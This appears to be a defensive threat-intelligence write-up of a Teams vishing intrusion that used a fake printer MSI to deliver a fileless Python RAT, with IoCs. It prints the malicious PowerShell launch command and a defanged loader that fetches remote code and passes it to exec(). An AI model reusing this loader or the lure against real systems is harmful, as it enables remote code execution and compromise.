

> Identifying details about the organization, its users, and its internal systems have been removed. Everything below describes the attacker's tooling and infrastructure.
{: .prompt-info }


## Overview

|                    |                                                          |
| ------------------ | -------------------------------------------------------- |
| **Initial access** | Microsoft Teams voice call impersonating IT Service Desk |
| **Delivery**       | Password-protected MSI hosted on Azure Blob Storage      |
| **Loader**         | PowerShell script that stages a private Python runtime   |
| **Payload**        | In-memory Python RAT, Salsa20-encrypted C2               |
| **Infrastructure** | 3 C2 domains hosted on a VPS                             |

An attacker using a display name impersonating a help desk employee placed Microsoft Teams calls to several employees. The callers who picked up were walked through downloading a "patch" called `patchkit.msi` from an Azure Blob Storage URL, and some users shared their screen while the attacker guided them.

The MSI poses as printer software and needs a password to run, which the attacker most likely read out over the call. Inside is a single PowerShell script that downloads a private copy of Python, then pulls down and runs a Python RAT entirely in memory. The RAT beacons over HTTPS using a modified Salsa20 cipher and gives the operator full remote code execution on the host.

## Kill Chain



| #   | Stage             | Detail                                                                               |
| --- | ----------------- | ------------------------------------------------------------------------------------ |
| 0   | Initial Access    | Teams voice call impersonating IT support; user talked into installing a "patch"     |
| 1   | User Execution    | User downloads the MSI from an Azure Blob URL                                        |
| 2   | Delivery          | `patchkit.msi` hosted on `uptodatex.blob.core.windows[.]net/codefix/`                |
| 3   | Masquerading      | MSI metadata poses as "PrntQx" printer software                                      |
| 4   | Execution Bridge  | MSI CustomAction → `cmd /c start` → hidden PowerShell with `-ExecutionPolicy Bypass` |
| 5   | Loader            | `Prix.ps1` stages embedded Python to `%LOCALAPPDATA%\Pembed`                         |
| 6   | Stage-2 Bootstrap | `pythonw.exe` fetches `/cl/flash/c?v=6` and `exec`s the returned code                |
| 7   | C2 / Implant      | Salsa20-encrypted HTTPS beacon; runs operator-pushed Python in memory                |

## Technical Analysis

### Initial Access

The whole intrusion relied on a phone call. Microsoft Teams allows calls from external tenants by default, and a display name like "Firstname Lastname \| IT Service Desk" is enough to make a call look internal to most users.

The download URL pointed at Azure Blob Storage:

```text
hxxps://uptodatex.blob.core.windows[.]net/codefix/patchkit.msi
```

> Hosting on `*.blob.core.windows.net` is the deliberate, clever part: it's a trusted Microsoft domain, so the download slips past most reputation-based web filtering that would block a freshly registered attacker domain.
{: .prompt-tip }

### The MSI (`patchkit.msi`)

Pulling `patchkit.msi` apart, there's barely anything to it:

- Built with WiX Toolset, created Sep 01, 2026, and is unsigned.
- Metadata masquerade: author `PrntCorp`, subject `PrntQx`, package UUID `{F12CA398-1AC7-4CE9-8B04-49F49AC97E6B}`.
- Contains exactly one file, `scripts\Prix.ps1`. There is no legitimate payload; the installer exists only to run the script.
- The `ExecPS` CustomAction launches it:

```text
cmd.exe /c start "" powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -File "[SCRIPTFOLDER]\Prix.ps1"
```


### Loader (`Prix.ps1`)

Reading through `Prix.ps1`, what stands out is how hard it works to avoid dropping anything that looks like malware. Instead of a compiled implant, it builds a clean, fully legitimate Python environment:

1. Downloads the official embedded Python 3.14.7 package from python.org to `%TEMP%\py.zip`.
2. Extracts it to `%LOCALAPPDATA%\Pembed`.
3. Bootstraps pip with `get-pip.py`, then installs `pythonnet`, `pywin32`, `pywinpty`, and `websockets`. Together these give the RAT .NET interop, Win32 API access, interactive pseudo-terminals, and a websocket channel.
4. Writes `README.md` containing 35–100 random letters. This becomes the per-host identifier and encryption key.
5. Launches `pythonw.exe` with the stage-2 bootstrap passed inline.

### Stage-2 Bootstrap

Domains are defanged below; the original code used the live hostnames.

```python
import urllib.request as u,json,ssl,random,time
for _ in range(100):
    try:
        exec(json.loads(u.urlopen(
            f"https://{random.choice(['portojavspirit[.]net','herobustore[.]net','appsyspro[.]net'])}/cl/flash/c?v=6",
            context=ssl._create_unverified_context(), timeout=30
        ).read().decode())['code'])
        break
    except Exception:
        time.sleep(30)
```
{: file="stage-2 bootstrap (passed to pythonw.exe -c)" }

A few things stand out:

- Random C2 selection across three domains, so blocking one does not stop the attack.
- Certificate validation disabled with `ssl._create_unverified_context()`.
- 100 retries, 30 seconds apart, about 50 minutes of persistence without any persistence mechanism on disk.
- The real payload is a JSON field named `code` passed straight to `exec()`. Nothing beyond the bootstrap ever touches disk.

### RAT Module

- **Encryption:** a custom Salsa20 implementation with non-standard sigma/tau constants, `mlswgtppayebtezk` and `lwifnrfiosmfrubf`. Standard Salsa20 tooling will not decrypt the traffic unless those constants are swapped in.
- **Key and bot ID:** characters `[1:17]` of `README.md` form a 16-character string used as both the Salsa20 key and the bot ID in the beacon path. That makes the key recoverable from any infected host.
- **Beacon:** `POST https://{c2}/{seg1}/{botID}/{seg2}` with body `8-byte nonce || Salsa20(plaintext)` and `Content-Type: application/octet-stream`. Header names are built by string concatenation to dodge static signatures.
- **Path segments:** `{seg1}` and `{seg2}` are random picks from a fixed list of 10 hardcoded 29–30-character strings (listed in the IoCs), which makes every beacon URL look different.

> Analyst gotcha: if you capture beacon traffic and reach for off-the-shelf Salsa20, it fails silently. The implant swaps the standard sigma/tau constants for `mlswgtppayebtezk` and `lwifnrfiosmfrubf`, so drop those in and the traffic decrypts. And because the key is just characters `[1:17]` of `README.md` on the host, a single infected machine hands you everything you need to read its C2.
{: .prompt-warning }

## C2 Infrastructure

| Domain                 | IP                | Location | Cert Issued  | Backend Hostname  |
| ---------------------- | ----------------- | -------- | ------------ | ----------------- |
| `herobustore[.]net`    | `162.33.178[.]37` | Chicago  | Aug 24, 2026 | `6A6CB4477E89BBB` |
| `appsyspro[.]net`      | `64.95.13[.]72`   | Dallas   | Aug 24, 2026 | `6A6B62207E89BBB` |
| `portojavspirit[.]net` | `64.95.11[.]63`   | Dallas   | Aug 24, 2026 | `6A6CBE198860F13` |

### Shared Host Fingerprint

- All three sit on AS399629 / BL Networks, a bulletproof-style host. Two of three are in `64.95.0.0/16`.
- The backend is a Python ASGI app. A `GET` request to a valid beacon path returns `405 {"detail":"Method Not Allowed"}` because the beacon is POST-only.
- Origin OS is Windows 10 / Server build 10.0.19041, with RDP (3389) and RPC/NetBIOS (135, 139, 49664+) exposed to the internet.

### Two-Phase Timeline

- **Jul 30–31, 2026:** all three domains provisioned behind Cloudflare, with Google Trust Services (WE1) and Cloudflare edge certificates covering the wildcard and apex. The origin servers were hidden.
- **Aug 24, 2026:** Let's Encrypt certificates issued directly on the BL Networks origins, which is when the C2 went live.
- **Sep 01, 2026:** the MSI was built.

The domains aged about 25 days before being weaponized, long enough to get past "newly registered domain" filters. Certificate transparency logs exposed both phases, and the switch from Cloudflare to direct-to-origin certificates is what revealed the real hosting.

## Lessons Learned

- **Trust is the attack surface.** Every single step leaned on something legitimate: an internal-looking Teams call, a Microsoft Azure domain, the official python.org runtime, real PyPI packages, and valid TLS certs. No stage looked obviously malicious on its own, which is exactly why it worked.
- **Fileless by design.** Nothing but a stock Python runtime and a random `README.md` ever touched disk. The actual implant lived only in memory, pulled fresh from C2 on every run, so disk-forensics-only triage would come up empty.
- **Living off a legitimate runtime beats a custom binary.** Rather than compile an implant for AV to catch, the attacker weaponized embedded Python plus `pythonnet`/`pywin32`. The malicious part is a JSON `code` field handed to `exec()`, with no artifact to signature.
- **Infra opsec is hard to get perfect.** Aging the domains ~25 days behind Cloudflare was meant to beat reputation filters, but certificate transparency logs still laid the whole two-phase timeline bare and the move to direct-to-origin certs is what unmasked the real hosts.

## Indicators of Compromise

### Network

| Type                  | Indicator                                                        |
| --------------------- | ---------------------------------------------------------------- |
| Delivery URL          | `hxxps://uptodatex.blob.core.windows[.]net/codefix/patchkit.msi` |
| Azure storage account | `uptodatex` (container `codefix`)                                |
| Stage-2 URL pattern   | `hxxps://<c2>/cl/flash/c?v=<N>`                                  |
| Beacon URL pattern    | `hxxps://<c2>/<seg>/<16-char botID>/<seg>`                       |
| C2 domain             | `portojavspirit[.]net`                                           |
| C2 domain             | `herobustore[.]net`                                              |
| C2 domain             | `appsyspro[.]net`                                                |
| C2 IP                 | `162.33.178[.]37`                                                |
| C2 IP                 | `64.95.13[.]72`                                                  |
| C2 IP                 | `64.95.11[.]63`                                                  |
| ASN                   | AS399629 / BL Networks                                           |

Beacon path segments (fixed set of 10):

```text
yEALBmsqkngpHjkBMmqodVDMNlKFyJ
QscDBIkBWmNMRNrjcBynSrtnFnqrcV
cVqQUtlInytLfzlZnFtSckYHGRZtVw
XrliLfmlqtMUNwjMGoTMqfYySLSFPU
LYQrxnkuCeIsImzSCXKCBhsDdmFIHS
BSnueeZcUUtNaBZNJuXdEwdFEiidbv
MzkDwjDNGzTlZHrEPqjlTzFOvPlcgK
AhOLClSSClmlcaAHlXmbVDQymzkTbU
eqJppVjlxQeyxHHjfLfoGEukkhHeJq
mOyDqsSJRmQJEvBDuLDIzRvsLXamgX
```

### Host

| Type             | Indicator                                                                                                                                                               |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| File             | `patchkit.msi` (unsigned)                                                                                                                                               |
| MSI metadata     | WiX 3.14.0.8606, author `PrntCorp`, subject `PrntQx`                                                                                                                    |
| MSI package UUID | `{F12CA398-1AC7-4CE9-8B04-49F49AC97E6B}`                                                                                                                                |
| Directory        | `%LOCALAPPDATA%\Pembed\` (embedded Python, `README.md`, `Scripts\`, `get-pip.py`)                                                                                       |
| File             | `%TEMP%\py.zip`                                                                                                                                                         |
| Process lineage  | `msiexec.exe` → `cmd.exe /c start "" powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -File ...\Prix.ps1` → `pythonw.exe` (from `\Pembed\`) with outbound 443 |
| Crypto constants | `mlswgtppayebtezk`, `lwifnrfiosmfrubf`                                                                                                                                  |


## References

- [MITRE ATT&CK T1566.004: Phishing: Spearphishing Voice](https://attack.mitre.org/techniques/T1566/004/)
- [MITRE ATT&CK T1218.007: System Binary Proxy Execution: Msiexec](https://attack.mitre.org/techniques/T1218/007/)
- [MITRE ATT&CK T1059.006: Command and Scripting Interpreter: Python](https://attack.mitre.org/techniques/T1059/006/)
- [MITRE ATT&CK T1036: Masquerading](https://attack.mitre.org/techniques/T1036/)
- [MITRE ATT&CK T1573.001: Encrypted Channel: Symmetric Cryptography](https://attack.mitre.org/techniques/T1573/001/)
